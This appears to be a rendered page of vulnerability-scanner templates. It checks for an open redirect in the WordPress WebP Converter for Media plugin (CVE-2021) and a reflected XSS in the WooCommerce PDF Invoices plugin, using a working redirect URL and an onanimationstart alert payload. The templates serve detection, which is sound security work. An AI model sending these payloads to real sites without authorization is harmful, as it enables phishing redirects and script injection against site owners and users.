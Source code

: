**Type - status**
- status
    1. 200

---
# WordPress WebP Converter for Media \< 4.0.3 - Unauthenticated Open Redirect
## Description
- WordPress WebP Converter for Media \< 4.0.3 contains a file (passthru.php) which does not validate the src parameter before redirecting the user to it, leading to an open redirect issue.
- severity - medium
- tags - redirect,wp-plugin,webpconverter,wpscan,cve,cve2021,wordpress
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/webp-converter-for-media/includes/passthru.php?src=https://interact.sh
### Matchers

**Type - regex**
- part - header
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh\/?(\/|[^.].*)?$

---
# WooCommerce PDF Invoices & Packing Slips WordPress Plugin \< 2.10.5 - Cross-Site Scripting
## Description
- The Wordpress plugin WooCommerce PDF Invoices & Packing Slips before 2.10.5 does not escape the tab and section parameters before reflecting it an attribute, leading to a reflected cross-site scripting in the admin dashboard.
- severity - medium
- tags - cve,cve2021,xss,wp,wordpress,wp-plugin,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wpo_wcpdf_options_page&section=%22+style%3Danimation-name%3Arotation+onanimationstart%3Dalert%28document.domain%29+x%3D HTTP/1.1
Host: {{Hostname}}

```
### Matchers
